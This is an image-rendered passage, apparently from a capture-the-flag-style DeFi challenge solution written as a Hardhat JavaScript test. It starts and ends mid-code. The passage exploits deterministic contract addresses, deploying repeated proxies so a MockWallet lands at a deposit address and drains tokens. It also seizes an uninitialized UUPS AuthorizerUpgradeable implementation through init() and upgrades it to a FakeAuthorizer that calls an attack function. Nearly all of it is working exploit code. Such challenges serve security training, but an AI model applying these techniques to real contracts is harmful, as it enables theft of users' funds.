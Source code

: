 ```js
          value: ethers.utils.parseEther("1"),
        });

        // Mock the first 2 transactions of deployer, and deploy the `GnosisSafeProxyFactory` which should have the address of `0x76E2cFc1F5Fa8F6a5b3fC4c8F4788F0116861F9B`.
        await ethers.provider.sendTransaction(firstTx);
        await ethers.provider.sendTransaction(secondTx);
        const txReceipt = await (await ethers.provider.sendTransaction(createFactoryTx)).wait();
        const proxyFactory = (await ethers.getContractFactory("GnosisSafeProxyFactory")).attach(txReceipt.contractAddress);
        expect(txReceipt.contractAddress).to.be.equal(`0x76E2cFc1F5Fa8F6a5b3fC4c8F4788F0116861F9B`);

        // Calculate the nonce of the deployment of `GnosisSafeProxyFactory`. Since it uses `create`, we can bruteforce the nonce.
        // nonce == 43.
        // for (let i = 1; i < 50; i++) {
        //   const addr = ethers.utils.getContractAddress({
        //   from: "0x76E2cFc1F5Fa8F6a5b3fC4c8F4788F0116861F9B",
        //   nonce: i,
        // });
        // if (addr == "0x9B6fb606A9f5789444c17768c6dFCF2f83563801") {
        //   console.log("Deposit deployment nonce", i);
        // }
        // }

        // Deploy mockWallet to drain funds from `DEPOSIT_ADDRESS`.
        const mockWalletFactory = await ethers.getContractFactory("MockWallet");
        const mockWallet = await mockWalletFactory.deploy();
        for (let i = 1; i <= 42; i++) {
            await proxyFactory.createProxy(mockWallet.address, []);
        }
        const payload = mockWalletFactory.interface.encodeFunctionData("attack", [
            token.address,
            player.address,
        ]);
        await proxyFactory.createProxy(mockWallet.address, payload);

        // We can to upgrade the `AuthorizerUpgradeable` to bypass the `can()` check. This is because the contract does not run `_disableInitializers()`
        // in its constructor, so we can directly take control of its ownership by calling its `init()` function.
        // UUPSUpgradable Implementation Slot: 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
        const implementationSlot = await ethers.provider.getStorageAt(authorizer.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc');
        const implementationAddr = `0x` + implementationSlot.slice(-40);

        // Connect `AuthorizerUpgradeable` to be its owner.
        const authorizerUpgradeable = (await ethers.getContractFactory("AuthorizerUpgradeable")).attach(implementationAddr);
        await authorizerUpgradeable.connect(player).init([], []);

        // Deploy `FakeAuthorizer` for upgrade.
        const fakeAuthorizerFactory = (await ethers.getContractFactory("FakeAuthorizer"));
        const fakeAuthorizer = await fakeAuthorizerFactory.deploy();

        // Upgrade the `AuthorizerUpgradeable`'s logic contract to our `FakeAuthorizer`.
        await authorizerUpgradeable
          .connect(player)
          .upgradeToAndCall(fakeAuthorizer.address, fakeAuthorizerFactory.interface.encodeFunctionData("attack", []));

```